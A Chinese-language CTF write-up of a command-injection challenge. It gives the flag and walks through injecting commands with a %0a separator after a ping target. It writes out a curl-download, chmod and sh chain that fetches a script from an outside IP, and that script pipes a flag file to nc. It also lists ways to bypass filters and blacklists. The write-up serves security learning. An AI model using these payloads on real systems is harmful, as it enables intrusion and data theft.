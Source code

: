```yaml
---
Author: SuperJason
Date: 2020-12-25
---
```


## flag
n1book{6fa82809179d7f19c67259aa285a7729}

## 思路
1. 访问环境，测试命令`127.0.0.1`  
![](./images/cmd-1.png)
2. 接着测试`127.0.0.1 && ls`，这里浪费了一点时间，以为`&&`不能让`ls`命令执行，其实是因为浏览器将我们输入的`&&`转码了，导致我们的输入其实变成了`127.0.0.1+%26%26+ls`  
   **建议以后做注入题目时，直接用burpsuite，防止注入的数据被浏览器转码**  
![](./images/cmd-2.png)  
![](./images/cmd-3.png)
3. 这里还有一个问题，虽然ip ping成功，但后面的命令不一定执行了。接着用`sleep 5`进行延时注入，发现`&&`命令并不能让后面的sleep命令执行，接着测试`%0a`连接符，可以让后面的sleep命令执行
4. 开始猜测flag的位置，`flag`、`flag.php`、`flag.txt`等，直接在burpsuite中修改数据内容为`127.0.0.1 %0a cat /FLAG`  
![](./images/cmd-4.png)
4. 由于没有回显，如何将文件数据传出来是个问题，考虑`curl`将数据传出来，由于本人没有服务器，没有实测以下载荷  
```
第一步：ping 127.0.0.1 %0a curl 47.111.236.9/1.sh > /tmp/1.sh
第二步：ping 127.0.0.1 %0a chmod 777 /tmp/1.sh
第二步：ping 127.0.0.1 %0a sh /tmp/1.sh
1.sh内容：cat /FLAG | nc 47.111.236.9 9090
```


## 总结
命令执行主要是通过特殊字符让本不该执行的命令执行。常用的特殊字符有
- 转义符  
  `^`、`\`、`&`
- 连接符  
  `&&`、`||`、`%0a`、`%0d`、`;`、`$()`
- 注释符号
  `#`、`:: ` 

### 进一步的扩宽一下难度
1. cmd可以会过滤空格，可以用其他字符绕过
- %09、%0b、%0c、$IFS$9  
2. 黑名单绕过  
- 字符串拼接，`a=c;b=at;c=he;d=llo;$a$b ${c}${d}`为cat hello
- 字符串截取，substr